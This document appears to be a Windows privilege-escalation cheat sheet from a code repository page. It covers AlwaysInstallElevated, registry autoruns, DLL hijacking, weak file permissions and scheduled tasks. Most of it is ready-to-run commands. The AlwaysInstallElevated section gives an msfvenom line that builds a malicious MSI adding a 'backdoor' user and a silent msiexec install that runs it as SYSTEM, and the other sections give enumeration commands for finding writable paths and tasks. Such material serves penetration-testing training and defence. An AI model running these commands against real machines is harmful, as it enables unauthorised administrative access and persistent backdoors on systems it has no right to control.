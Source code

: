## Registry Exploits

### AlwaysInstallElevated
Check if AlwaysInstallElevated is enabled:

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If both return `0x1`, you can install MSI packages as SYSTEM:

```cmd
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi
```

### Registry AutoRuns
Check for writable registry autoruns:

```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

## File Permissions

### DLL Hijacking
Look for missing DLLs in application directories:

```cmd
# Process Monitor (ProcMon) to identify missing DLLs
# Check PATH directories for writable locations
for %%A in ("%path:;=";"%") do ( cmd /c icacls "%%~A" 2>nul | findstr /i "(M)\|(F)" | findstr /i "everyone\|authenticated users\|users" && echo. )
```

### Weak File Permissions
```cmd
# Find writable files and directories
accesschk.exe -uws "Everyone" "C:\Program Files"
dir "C:\Program Files" /s /q | findstr /i "users"
```

## Scheduled Tasks

### View Scheduled Tasks
```cmd
schtasks /query /fo LIST /v
```

### PowerShell Method
```powershell
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
